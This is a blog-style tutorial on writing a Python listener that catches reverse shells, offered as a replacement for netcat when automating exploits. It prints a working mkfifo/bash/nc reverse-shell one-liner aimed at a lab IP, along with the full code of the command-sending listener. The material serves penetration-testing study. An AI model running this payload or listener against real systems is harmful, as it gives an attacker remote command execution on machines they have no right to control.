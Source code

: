 ```yaml
---
layout: post
title:  "Creating a Basic Python Reverse Shell Listener"
date:   2021-10-16 17:00:10 +0200
tags: ["Pentesting Tips & Tricks","OSWE"]
---
```


# Introduction
This week I wanted to create a listener in python which functioned like the command `nc -lp [port]`, which is commonly used to catch reverse shells. At first, I thought it would be a piece of cake and would simply be something like reading the user input for a command, sending the command and retrieving the output of the command. However, it turned out to be a bit more complicated than I thought. As such, I decided to share the solution in a post.

The reason why it could be nice to be able to catch reverse shells using code rather than the netcat command (`nc`) is that it can facilitate automation. For example, if an exploit requries multiple listeners, the user of the exploit won't need to manually start the listeners. For instance, the script could be used in a more complex script which starts a listener that catches a reverse shell for a regular user, starts another listener, performs a set of privesc commands and then catches a root shell.

To debug the script, I used the reverse shell payload below. I would run this reverse shell payload on another host and catch it with either netcat or a python script while capturing the network traffic in Wireshark. This enabled me to study the differences between the communication resulting from both listeners and deduce what went wrong when something didn't work.

{% highlight bash linenos %}
mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9999 >/tmp/f
{% endhighlight %}

# Challenges
There were two main challenges which I encountered while writing the code. The first was the problem of reading the input data of the user without displaying it twice in the terminal. This is a problem since the reverse shell payload presented earlier, and most other reverse shell payloads, echo the input of the user back to the user. Among other things, I searched for input functions which could receive input from the terminal and remove the input from the terminal once the user pressed enter to submit it.  

Unfortunately, there did not appear to be many options for input functions which differed from the classical `input()` function in this sense. When the `input()` function is used, it outputs the user input to the terminal together with a newline character. This means that the user input will appear twice since it is also echoed back from the reverse shell payload. As will be seen in the next section, this can be solved with ANSI escape codes.

The second challenge I encountered was that some commands needed some time to finish executing. For this, I didn't find a great solution and after a while I decided to simply introduce an artifical delay of 1 second before retreiving the output of the command. As such, commands taking more than the time limit to finish executing, would risk not having their output returned to the user. While this artrificial delay could impact the user experience, it is unlikely to be a problem when performing automated exploitation since the artificial delay could be increased to render the risk of missing output negligible.

# Writing the Code
The first step in writing the code is to import the required modules, as shown at the first line in the code block below. The "socket" module is required to be able to listen to for connections on a port, accept connections and send traffic over a connection. The `sys` module is used to write output to the terminal without newline characters since the `print()` function automatically appends a newline character to any data it outputs to the terminal. Finally, the `time` module is simply used for the artifical time delays. After importing the modules, we define the 'listen' function and call it with an ip and a port. This function is where all of the listeners code will be placed. Note that the ip must be an IP corresponding to your computer while the port can have an arbitrary value as long as this value corresponds to a port which is not in use by another program.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    pass

listen("10.10.14.25",9999)
{% endhighlight %}

Next, we add the code below, which listens for a connection over TCP and accepts it. The first line defines a socket object with the parameters `socket.AF_INET` and `socket.SOCK_STREAM` which simply states that the socket will deal with IPv4 and TCP respectively. Then, on the second line, we bind the socket object to the port we want to listen on. Next, we use the `listen()` function to start listening on the provided port, passing `1` as a parameter to indicate that we only expect one connection. Thereafter, we wait for a connection at line 5, where we acquire the `conn` object which represents the connection and can be used to communicate with the connecting host.  
{% highlight python linenos %}
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((ip, port))
s.listen(1)
print("Listening on port " + str(port))
conn, addr = s.accept()
print('Connection received from ',addr)
{% endhighlight %}

Then, we add the three lines below to receive any initial characters from the reverse shell payload. This is usually the current user, hostname, current working directory and some special characters which function as delimiters. Once we have received this data, we output it to the terminal and ask the user for a command to execute using the `input()` function. Note that we need to use `decode()` function on the first line. This function is used to decode the bytes object obtained from `conn.recv(1024)`, into a string using the [UTF-8](https://en.wikipedia.org/wiki/UTF-8) character encoding.
{% highlight python linenos %}
ans = conn.recv(1024).decode()
sys.stdout.write(ans)
command = input()
{% endhighlight %}

The next step is to send the command to the other host, which can be achieved by the code snippet below. Here, we add a newline character to the command since the `input()` function returns the user input except for the newline character. Thereafter, we send the command on line 2 and wait for it to finish executing at line 3 by using the `time.sleep()` function to wait for one second before continuing. At this point, we should be able to wrap these two code snippets in a `while` loop and execute commands indefinitely. 
{% highlight python linenos %}
command += "\n"
conn.send(command.encode())
time.sleep(1)
{% endhighlight %}

This is, however, where things get slightly tricky. At this point, we encounter the first of the two challenges described earlier. Namely that the user input is also received from the compromised host's output and thus is outputted twice to the terminal, as can be seen in the picture below.
![pythonListenerWOCursorFix](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerWOCursorFix.png)

A solution to the problem is to use [ANSI escape codes](https://en.wikipedia.org/wiki/ANSI_escape_code) which can be used to move the terminal cursor. Since the terminal cursor points to the place in the terminal where characters are written when sent to STDOUT, we can use this to remove the user input. More specifically, the idea is to remove the user input once it has been submitted and wait for the output of the compromised host to fill it in again, together with the corresponding output. A way to perform this is to move to the beginning of the line where the user input was submitted and output all the characters until the location where the user input was previously submitted. This can be achieved by adding the line below after the previous code snippet. In this line, the `sys.stdout.write()` function is used to write an ANSI escape code to the terminal together with the original line without the user input.
{% highlight python linenos %}
sys.stdout.write("\033[A"+ans.split("\n")[-1])
{% endhighlight %}
The ANSI escape codes is `\033[A` which moves the cursor up one line. Then, the last line which was recevied is outputted. This moves the terminal cursor to the place where the user entered the command. Note that the last line is obtained by splitting on the newline character `\n` and selecting the last line in the resulting list by using the index `-1`. Finally, note that it is important for the user experience to place this line after the `time.sleep(1)` line rather than before, since placing it before means that the user input could be gone while we are waiting for the command output.

# Final Code
Putting everything together, we get the code below which can be downloaded [here](/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListener.py). The only thing that has been added in this code is the `while` loop which simply ensures that the user can execute more than one command.

{% highlight python linenos %}
import socket, sys, time

def listen(ip,port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((ip, port))
    s.listen(1)
    print("Listening on port " + str(port))
    conn, addr = s.accept()
    print('Connection received from ',addr)
    while True:
        #Receive data from the target and get user input
        ans = conn.recv(1024).decode()
        sys.stdout.write(ans)
        command = input()

        #Send command
        command += "\n"
        conn.send(command.encode())
        time.sleep(1)

        #Remove the output of the "input()" function
        sys.stdout.write("\033[A" + ans.split("\n")[-1])

listen("10.10.14.25",9999)
{% endhighlight %}

For a demo of the script in action, see the video below.

<video width="100%" controls="controls">
  <source src="/assets/2021-10-16-Creating-a-Basic-Python-Reverse-Shell-Listener/pythonListenerDemo.mp4" type="video/mp4">
</video>

